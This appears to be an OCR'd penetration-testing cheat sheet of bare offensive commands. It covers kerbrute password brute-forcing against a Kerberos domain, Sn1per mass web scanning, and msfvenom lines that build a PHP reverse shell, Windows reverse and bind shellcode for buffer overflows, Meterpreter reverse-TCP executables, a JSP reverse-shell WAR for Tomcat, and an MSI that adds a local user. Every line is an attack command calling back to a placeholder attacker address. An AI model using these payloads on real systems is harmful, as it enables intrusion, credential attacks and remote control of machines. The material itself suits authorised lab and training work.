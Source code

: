 
##  
cat combos.lst | ./kerbrute -d lab.ropnop.com bruteforce




##  
sniper -f ips.txt -m massweb -w output.txt


##  
sniper -t <IP> -m webscan -w output.txt




##  MSFVenom - Generating Payloads


##  PHP reverse shell payload
msfvenom -p php/reverse_php LHOST=YOURIPADDRESS LPORT=443 > shell.php


##  Windows reverse shellcode for python script buffer overflow
msfvenom -p windows/shell_reverse_tcp LHOST=YOURIPADDRESS LPORT=443 -f c -e x86/alpha_mixed -b "\x00\x04\xcd\x77\x3f"


##  Windows bind shellcode for python script buffer overflow
msfvenom -p windows/shell_bind_tcp LPORT=444 -f c -e x86/shikata_ga_nai -b  "\x00\x04\xcd\x77\x3f"


##  Meterpreter exe with reverse shell
msfvenom -p windows/meterpreter/reverse_tcp LHOST=YOURIPADDRESS LPORT=4444 -f exe > meterpreter.exe
	
	
##  64-bit
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.12.120 LPORT=4444 -f exe > met64.exe


##  WAR file for Apache Tomcat.
msfvenom -p java/jsp_shell_reverse_tcp LHOST=YOURIPADDRESS LPORT=443 -f war > shell.war


##  find malicious js file extract shell.war then browse to js file in browser
jar -xvf shell.war


##  Windows MSI
msfvenom -f msi-nouac -p windows/adduser USER=hackerman PASS=password -o add_user.msi
